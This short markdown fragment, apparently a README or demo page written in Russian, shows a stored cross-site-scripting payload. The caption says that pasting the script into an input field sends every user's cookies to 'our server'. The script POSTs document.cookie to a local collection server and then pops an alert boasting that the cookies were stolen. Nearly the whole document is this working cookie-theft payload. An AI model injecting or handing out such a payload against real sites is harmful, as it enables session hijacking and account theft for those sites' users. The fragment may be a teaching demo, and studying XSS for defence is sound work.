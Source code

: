 Достаточно указать такой скрипт в поле ввода и куки каждого пользователя будут оправляться на наш сервер

<script>fetch('http://localhost:4200', {
    method: 'post',
    body: JSON.stringify(document.cookie),
    headers: {
        'content-type': 'application/json'
    }
}).then(alert('Я украл Ваши куки'))</script>

